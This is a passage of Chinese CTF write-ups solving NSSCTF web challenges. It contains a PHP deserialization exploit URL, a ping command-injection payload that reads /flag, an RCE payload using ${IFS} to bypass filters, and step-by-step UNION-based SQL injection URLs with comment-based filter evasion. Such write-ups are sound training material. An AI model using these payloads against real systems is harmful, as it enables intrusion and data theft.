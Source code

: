 exp：

```python
import requests
response1=requests.get('http://node5.anna.nssctf.cn:28507/index.php?w00m=O%3A4%3A%22w22m%22%3A1%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w33m%22%3A2%3A%7Bs%3A4%3A%22w00m%22%3BO%3A4%3A%22w44m%22%3A2%3A%7Bs%3A11%3A%22%00w44m%00admin%22%3Bs%3A4%3A%22w44m%22%3Bs%3A9%3A%22%00%2A%00passwd%22%3Bs%3A5%3A%2208067%22%3B%7Ds%3A4%3A%22w22m%22%3Bs%3A7%3A%22Getflag%22%3B%7D%7D')
print(response1.text[-44:])
```

## 17.[LitCTF 2023]Ping

```python
import requests
payload1={'command':'127.0.0.1;cat /flag','ping':'Ping'}
response1=requests.post('http://node5.anna.nssctf.cn:28310/',data=payload1)
print(response1.text[-85:-41])
```

## 18.[SWPUCTF 2021 新生赛]babyrce

```python
import requests
response1=requests.get(r'http://node5.anna.nssctf.cn:28769/rasalghul.php?url=cat${IFS}/flllllaaaaaaggggggg')
print(response1.text[-45:])
```

## 19.[SWPUCTF 2021 新生赛]sql

爆列数：

```url
http://node4.anna.nssctf.cn:28915/?wllm=1'order/**/by/**/3%23
http://node4.anna.nssctf.cn:28915/?wllm=1'order/**/by/**/3%23
```

爆列，当wllm为1时返回结果无法显示，选择-1查询不到，并找出select可用列：

```url
http://node4.anna.nssctf.cn:28915/?wllm=-1'union/**/select/**/1,2,3%23
```

爆库：

```url
http://node4.anna.nssctf.cn:28915/?wllm=-1'union/**/select/**/1,2,database()%23
```

爆表：

```url
http://node4.anna.nssctf.cn:28915/?wllm=-1'union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'test_db'%23
```
